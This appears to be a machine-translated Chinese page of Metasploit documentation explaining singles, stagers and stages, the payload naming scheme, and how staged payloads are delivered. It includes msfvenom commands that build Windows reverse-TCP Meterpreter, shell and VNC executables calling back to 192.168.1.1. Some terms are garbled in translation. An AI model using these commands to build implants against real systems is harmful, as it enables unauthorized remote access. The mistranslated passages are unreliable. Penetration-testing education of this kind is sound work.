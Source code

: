 # payloads 如何工作
payload模块是储存在`modules/payloads/{singles,stages,stagers}/<platform>`.当框架启动时,stages和stagers结合起来创造一个完整的载荷.您可以在exploit中使用它。然后，handlers与有效载荷配对，以便框架知道如何创建与给定通信机制的会话。

有效载荷被赋予参考名称，表示所有的部分，如下所示：
  - Staged payloads: `<platform>/[arch]/<stage>/<stager>`
  - Single payloads: `<platform>/[arch]/<single>`

这导致像有效载荷像 `windows/x64/meterpreter/reverse_tcp`.打破这一点，平台是`windows`,架构是`x64`,最后阶段我们交付的是`meterpreter`,而实现它的是`reverse_tcp`
请注意，体系结构是可选的，因为在某些情况下，它是不必要的或暗示的。一个例子是`php/meterpreter/reverse_tcp`。Arch不需要PHP有效载荷，因为我们提供的是解释代码，而不是本地代码。

### singles
单一的有效载荷是难以忘怀的。他们可以与Metasploit建立沟通机制，但他们不需要。一个可能需要的场景的例子是当目标没有网络访问时 - 通过USB密钥传递的文件格式漏洞利用仍然是可能的。

### stagers
舞台是一个小存根，旨在创造某种形式的交流，然后将执行转移到下一个阶段。使用stager解决了两个问题。首先，它允许我们最初使用一个小的有效载荷来加载更多的功能更大的有效载荷。其次，它使通信机制与最后阶段分离成为可能，因此一个有效载荷可以与多个传输一起使用而不需要复制代码。

### stages
由于stagers会照顾到处理任何规模的限制，为我们分配一大块内存来运行，所以stage可以是任意大的。这样做的一个优点是能够用C这样的高级语言编写最终阶段的有效载荷。

##　交付阶段
您希望有效载荷连接回的IP地址和端口被嵌入到stager中。如上所述，所有分级的有效载荷不过是建立通信并执行下一阶段的小存根。当您使用分阶段负载创建可执行文件时，您实际上只是创建了暂存器。所以下面的命令会创建功能相同的exe文件：
```
    msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```
（请注意，这些功能是相同的 - 有很多随机化进入它，所以没有两个可执行文件是完全一样的。）
１．Ruby端作为客户端，使用由stager（例如：tcp，http，https）设置的任何传输机制。
    ＊　在shell阶段的情况下，当您与终端进行交互时，Metasploit会将远程进程的输入连接到您的终端。
    ＊　在Meterpreter阶段的情况下，Metasploit将开始使用Meterpreter协议。